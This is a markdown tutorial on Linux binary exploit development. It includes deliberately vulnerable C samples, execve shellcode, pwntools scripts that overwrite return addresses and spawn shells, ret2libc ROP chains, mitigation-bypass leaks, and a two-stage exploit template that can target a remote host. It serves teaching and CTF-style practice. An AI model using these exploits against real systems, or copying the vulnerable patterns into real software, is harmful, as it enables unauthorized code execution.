

# Exploit Development
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Mindset and Fundamentals](#mindset-and-fundamentals)
2. [Vulnerability Types](#vulnerability-types)
3. [Exploit Primitives](#exploit-primitives)
4. [Exploit Writing Process](#exploit-writing-process)
5. [Debugging with GDB and pwndbg](#debugging-with-gdb-and-pwndbg)
6. [Pattern Creation and Offset Finding](#pattern-creation-and-offset-finding)
7. [Return Address Overwrite](#return-address-overwrite)
8. [NOP Sleds and Shellcode](#nop-sleds-and-shellcode)
9. [Exploit Mitigations and Bypasses](#exploit-mitigations-and-bypasses)
10. [pwntools Scripting](#pwntools-scripting)

---

## Mindset and Fundamentals

**Exploit development** is the craft of turning a software vulnerability into a reliable, controlled capability — most commonly arbitrary code execution. The exploit developer's job is to understand *exactly* what the program does in memory, identify where assumptions break down, and craft input that redirects execution.

Key traits of a good exploit developer:

- **Patience** — bugs take hours, days, or weeks to exploit reliably.
- **Low-level intuition** — comfortable reading assembly, understanding the stack/heap, and CPU registers.
- **Systematic approach** — document every step; crashes are data, not failures.
- **Tool mastery** — GDB, pwntools, pwndbg, radare2, IDA, Ghidra.

> **Note:** Even a "simple" stack buffer overflow may require bypassing multiple mitigations — ASLR, NX, stack canaries, and PIE — each of which adds a layer of complexity to the exploit chain.

---

## Vulnerability Types

### Stack Buffer Overflow

The most classic memory corruption bug. A local buffer on the stack is written beyond its allocated size, overwriting adjacent stack data — including the saved return address.

**Vulnerable C code:**

```c
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // no bounds check!
    printf("You entered: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

When `input` is longer than 64 bytes, it overwrites the stack frame. At offset ~72 bytes (64 buf + 8 bytes saved RBP on x86-64), the saved **RIP** (return instruction pointer) is overwritten.

**Stack layout (x86-64):**

```
High addresses
+------------------+
| ...              |
| Saved RIP        |  <-- overwrite this to control execution
| Saved RBP        |
| buffer[63]       |
| buffer[0]        |  <-- write starts here
| ...              |
Low addresses
```

### Heap Overflow

Similar to stack overflow but targeting heap-allocated memory. Overflowing a heap chunk can corrupt adjacent chunk metadata or object pointers.

```c
#include <stdlib.h>
#include <string.h>

int main() {
    char *a = malloc(16);
    char *b = malloc(16);
    // b holds a function pointer at offset 0
    strcpy(a, "AAAAAAAAAAAAAAAAAAAAAAAAAAAA");  // overflows into b
    return 0;
}
```

**Heap exploitation** techniques include: **House of Force**, **fastbin dup**, **tcache poisoning** (modern glibc).

### Use-After-Free (UAF)

A **use-after-free** occurs when a program frees memory but continues to use the freed pointer. An attacker who can control what gets allocated into the freed region can corrupt pointers.

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

typedef struct {
    char name[32];
    void (*print)(char *);
} Object;

int main() {
    Object *obj = malloc(sizeof(Object));
    obj->print = puts;
    free(obj);  // freed!
    // attacker allocates controlled data here
    char *evil = malloc(sizeof(Object));
    memcpy(evil, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x41\x41\x41\x41\x41\x41\x41\x41", 40);
    obj->print(obj->name);  // function pointer corrupted — arbitrary call!
    return 0;
}
```

### Format String Vulnerability

When user input is passed directly as the format string argument to `printf`, `sprintf`, etc.

```c
// VULNERABLE
printf(user_input);

// SAFE
printf("%s", user_input);
```

**Impact:** Arbitrary read (`%p`, `%s`), arbitrary write (`%n`), stack leak.

```bash
# Read stack values
./vuln "AAAA %p %p %p %p %p %p %p"
# Output: AAAA 0x7fff... 0x1 0x41414141 ...
#                              ^--- our input on the stack
```

> **Warning:** Format string bugs can leak stack canaries, ASLR base addresses, and saved return pointers in a single read — making them extremely powerful info-leak primitives.

---

## Exploit Primitives

| Primitive | Description | Example Technique |
|-----------|-------------|-------------------|
| **Control Flow Hijack** | Redirect instruction pointer (EIP/RIP/PC) | Overwrite saved RIP on stack |
| **Arbitrary Read** | Read data from any memory address | Format string `%s`, `%p` |
| **Arbitrary Write** | Write controlled data to any address | Format string `%n`, heap metadata |
| **Arbitrary Alloc** | Control malloc return address | tcache poisoning |
| **Type Confusion** | Trick the runtime into misinterpreting types | UAF with re-allocation |

Exploits are built by **composing primitives**: an arbitrary read leaks a return address → defeat ASLR; an arbitrary write redirects a function pointer → code execution.

---

## Exploit Writing Process



**Step-by-step:**

1. **Identify vulnerability** — source code audit, fuzzing, or reverse engineering.
2. **Crash the target** — send oversized input; confirm control of registers.
3. **Determine exact offset** — use cyclic patterns to pinpoint the overwrite location.
4. **Control EIP/RIP** — write a known value (e.g., `0x41414141`) and verify in debugger.
5. **Identify mitigations** — `checksec`, `/proc/<pid>/maps`, compiler flags.
6. **Defeat mitigations** — info leaks, ROP, heap grooming as needed.
7. **Place shellcode or build ROP chain**.
8. **Test and stabilize** — exploit should work reliably, not just occasionally.
9. **Deliver** — local or remote; adjust for network latency.

---

## Debugging with GDB and pwndbg

Install **pwndbg** (recommended over vanilla GDB):

```bash
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh
```

### Essential GDB Commands

```bash
# Start debugging
gdb ./vuln
gdb --args ./vuln $(python3 -c "print('A'*100)")

# Run program
run
run $(python3 -c "print('A'*100)")

# View registers
info registers
info registers rip rsp rbp

# Examine memory
x/20wx $esp          # 20 words (4-byte) hex from ESP
x/20gx $rsp          # 20 giant (8-byte) hex from RSP
x/40bx $rsp          # 40 bytes from RSP
x/s $rdi             # string at RDI
x/i $rip             # instruction at RIP
x/20i main           # 20 instructions from main

# Backtrace
bt

# Breakpoints
break main
break *0x08048576
break vulnerable

# Step
next        # step over
step        # step into
stepi       # step one instruction
nexti       # next instruction

# Continue
continue

# Memory map
info proc mappings   # all mapped regions
vmmap                # pwndbg: color-coded view

# pwndbg specific
checksec             # show binary protections
cyclic 200           # generate de Bruijn pattern
cyclic -l 0x6161616e # find offset from pattern value
context              # show full register/stack/code context
telescope $rsp 20    # display stack with smart dereferencing
heap                 # show heap chunks
bins                 # show free bins
```

### checksec Output Interpretation

```bash
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found    <-- no stack canary
    NX:       NX enabled         <-- no shellcode on stack
    PIE:      No PIE (0x400000)  <-- fixed base address
```

| Flag | Meaning |
|------|---------|
| **Full RELRO** | GOT is read-only; no GOT overwrite |
| **Partial RELRO** | GOT writable; GOT overwrite possible |
| **Stack Canary** | Detects stack overflow at return |
| **NX enabled** | Stack/heap not executable |
| **PIE enabled** | Randomized binary base address |

---

## Pattern Creation and Offset Finding

### Using Metasploit Pattern Tools

```bash
# Generate 200-byte De Bruijn pattern
msf-pattern_create -l 200

# Output example:
# Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5...

# Find offset of a value found in EIP after crash
msf-pattern_offset -l 200 -q 0x37614136
# [*] Exact match at offset 112
```

### Using pwndbg cyclic

```bash
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaa...

# After crash, read value in RSP or RIP:
pwndbg> cyclic -l $rsp
112
```

### Manual Offset Verification

```python
from pwn import *

# After finding offset = 112
offset = 112
payload = b"A" * offset + b"B" * 8   # B's should appear in RIP

p = process("./vuln")
p.sendline(payload)
p.wait()
```

Confirm in GDB: `RIP = 0x4242424242424242` — the B's (`0x42`).

---

## Return Address Overwrite

Once you control RIP, you direct execution to your shellcode or a ROP gadget.

**For 32-bit (EIP overwrite):**

```python
from pwn import *

offset    = 112
ret_addr  = p32(0xbfffef10)  # address of our shellcode on stack
shellcode = asm(shellcraft.sh())
nop_sled  = b"\x90" * 16

payload = b"A" * offset + ret_addr + nop_sled + shellcode

p = process("./vuln32")
p.sendline(payload)
p.interactive()
```

**For 64-bit (RIP overwrite):**

```python
from pwn import *

offset    = 40
ret_addr  = p64(0x7fffffffe200)
shellcode = asm(shellcraft.amd64.sh())
nop_sled  = b"\x90" * 32

payload = b"A" * offset + ret_addr + nop_sled + shellcode

p = process("./vuln64")
p.sendline(payload)
p.interactive()
```

> **Note:** In 64-bit, the stack pointer must be 16-byte aligned before `call` instructions. If your exploit crashes inside libc, add a `ret` gadget before your ROP chain to align the stack.

---

## NOP Sleds and Shellcode

A **NOP sled** (`\x90` × N) is a series of no-operation instructions placed before shellcode. When execution lands anywhere in the sled, it slides down into the shellcode — increasing reliability when the exact address varies slightly.

```
[AAAA...AAAA][RET_ADDR][\x90\x90\x90...][SHELLCODE]
              ^                            ^
              |____________________________|
              points somewhere in the sled
```

### Writing Simple Shellcode

Using **pwntools shellcraft**:

```python
from pwn import *
context.arch = 'amd64'
context.os   = 'linux'

shellcode = asm(shellcraft.sh())
print(shellcode.hex())
# 6a6848b82f62696e2f2f2f73504889e731f6...
```

Manual x86-64 `/bin/sh` execve shellcode:

```nasm
; execve("/bin/sh", NULL, NULL)
section .text
global _start
_start:
    xor  rdi, rdi
    push rdi
    mov  rdi, 0x68732f6e69622f2f   ; "//bin/sh"
    push rdi
    mov  rdi, rsp
    xor  rsi, rsi
    xor  rdx, rdx
    mov  rax, 59                    ; sys_execve
    syscall
```

```bash
nasm -f elf64 shell.asm -o shell.o
objcopy -O binary shell.o shell.bin
xxd shell.bin
```

> **Warning:** Many real-world targets filter null bytes (`\x00`), newlines (`\x0a`), or other characters. Always audit your shellcode for bad bytes and use encoders or alphanumeric shellcode if needed.

---

## Exploit Mitigations and Bypasses

### ASLR (Address Space Layout Randomization)

**What it does:** Randomizes the base addresses of the stack, heap, and shared libraries on each execution. An attacker who hardcodes addresses will jump to garbage.

```bash
cat /proc/sys/kernel/randomize_va_space
# 2 = full ASLR enabled
# 0 = disabled

# Disable for testing:
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

**Bypass — Information Leak:**

```python
# If the binary has a format string bug, leak a libc address:
payload = b"%21$p"   # print stack value at position 21
# Returned: 0x7f3b2c0d5a83  (libc address!)
# libc_base = leaked - known_offset
# then compute system(), /bin/sh string from libc_base
```

### DEP / NX (No-Execute)

**What it does:** Marks the stack and heap as non-executable. Shellcode injected there triggers a segfault when executed.

**Bypass — ret2libc:**

```python
from pwn import *

elf    = ELF("./vuln")
libc   = ELF("/lib/x86_64-linux-gnu/libc.so.6")
rop    = ROP(elf)

# Find gadgets
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret_gadget = rop.find_gadget(["ret"])[0]

bin_sh  = next(libc.search(b"/bin/sh"))
system  = libc.sym["system"]

offset  = 40
payload = flat(
    b"A" * offset,
    ret_gadget,          # stack alignment
    pop_rdi,
    bin_sh,
    system
)
```

### Stack Canaries

**What they are:** A random value placed between local variables and the saved return address. Before returning, the function checks if the canary is intact — if not, it calls `__stack_chk_fail` and aborts.

```
[locals][CANARY][saved RBP][saved RIP]
```

**Bypass — Leak the canary:**

```python
# Via format string at position 11:
p.sendline(b"%11$p")
canary = int(p.recvline().strip(), 16)

payload = flat(
    b"A" * 40,
    canary,              # preserve canary
    b"B" * 8,            # saved RBP
    ret_addr
)
```

> **Note:** Stack canaries always end in a null byte (`\x00`) to prevent `strcpy`-based leaks. However, if you can read raw bytes (e.g., a `read()` response), the null byte doesn't protect against the leak.

### PIE (Position Independent Executable)

**What it does:** Randomizes the base address of the executable itself (not just libraries). All symbol addresses are relative to a random base.

**Bypass — Leak binary base:**

```python
# Leak any address that points into the binary (e.g., saved RIP on stack)
leaked = 0x5555555551a3
# Subtract the known static offset of that address in the binary
binary_base = leaked - 0x11a3    # found via readelf or objdump

# Now compute real addresses:
win_func = binary_base + elf.sym["win"]
```

```bash
# Find static offsets:
objdump -d ./vuln | grep "<win>"
readelf -s ./vuln | grep win
```

---

## pwntools Scripting

**pwntools** is the standard Python library for exploit development.

```bash
pip install pwntools
```

### Full Exploit Template

```python
#!/usr/bin/env python3
from pwn import *

# ─── Configuration ───────────────────────────────────────────────
context.arch    = 'amd64'
context.os      = 'linux'
context.log_level = 'info'   # debug / info / warning

binary = './vuln'
elf    = ELF(binary, checksec=False)
libc   = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

# ─── Connect ─────────────────────────────────────────────────────
# Local:
p = process(binary)
# Remote:
# p = remote('10.10.10.1', 1337)
# GDB attach:
# p = gdb.debug(binary, gdbscript='break vulnerable\ncontinue')

# ─── Stage 1: Leak ───────────────────────────────────────────────
log.info("Stage 1: Leaking libc address...")
p.recvuntil(b"Input: ")
p.sendline(b"%21$p")
leak = int(p.recvline().strip(), 16)
log.success(f"Leak: {hex(leak)}")

libc.address = leak - libc.sym["__libc_start_main"] - 243
log.success(f"libc base: {hex(libc.address)}")

# ─── Stage 2: Exploit ────────────────────────────────────────────
rop     = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret     = rop.find_gadget(["ret"])[0]
system  = libc.sym["system"]
bin_sh  = next(libc.search(b"/bin/sh\x00"))

offset  = 40
payload = flat({
    offset: [
        ret,             # align stack
        pop_rdi,
        bin_sh,
        system
    ]
})

log.info("Stage 2: Sending ROP chain...")
p.recvuntil(b"Input: ")
p.sendline(payload)

# ─── Shell ───────────────────────────────────────────────────────
p.interactive()
```

### Useful pwntools Snippets

```python
# Pack/unpack
p32(0xdeadbeef)          # little-endian 32-bit
p64(0xcafebabe)          # little-endian 64-bit
u32(b"\xef\xbe\xad\xde") # unpack to integer

# Flat (build payload from dict or list)
flat(b"A"*40, p64(addr1), p64(addr2))
flat({0: b"A"*8, 40: p64(ret)})

# Find bad characters in shellcode
bad_chars = [0x00, 0x0a, 0x0d]
assert not any(b in shellcode for b in bad_chars)

# Context for shellcraft
context.binary = elf
sc = asm(shellcraft.sh())

# Cyclic pattern
pattern = cyclic(200)
offset  = cyclic_find(0x6161616e)   # value found in RIP after crash

# ROP chain
rop = ROP(elf)
rop.call(elf.sym["puts"], [elf.got["puts"]])
rop.call(elf.sym["main"])
chain = rop.chain()

# Logging
log.info("message")
log.success("got shell!")
log.failure("exploit failed")
log.debug(f"value = {hex(val)}")
```

---

## Quick Reference: Exploit Development Commands

| Task | Command |
|------|---------|
| Check protections | `checksec --file=./vuln` |
| Generate pattern | `msf-pattern_create -l 200` |
| Find offset | `msf-pattern_offset -l 200 -q 0x41336141` |
| Disassemble | `objdump -d ./vuln \| less` |
| Find ROP gadgets | `ROPgadget --binary ./vuln \| grep "pop rdi"` |
| Find strings | `strings -a -t x ./vuln \| grep "/bin"` |
| List symbols | `readelf -s ./vuln` |
| Memory sections | `readelf -S ./vuln` |
| Find PLT/GOT | `objdump -d -j .plt ./vuln` |
| Attach GDB to PID | `gdb -p $(pidof vuln)` |
| Core dump analysis | `gdb ./vuln core` |

> **Note:** When exploiting remote targets over a network, always account for buffering — use `p.recvuntil()` or `p.recvline()` to synchronize before sending payloads. A payload sent at the wrong time is a silent failure.
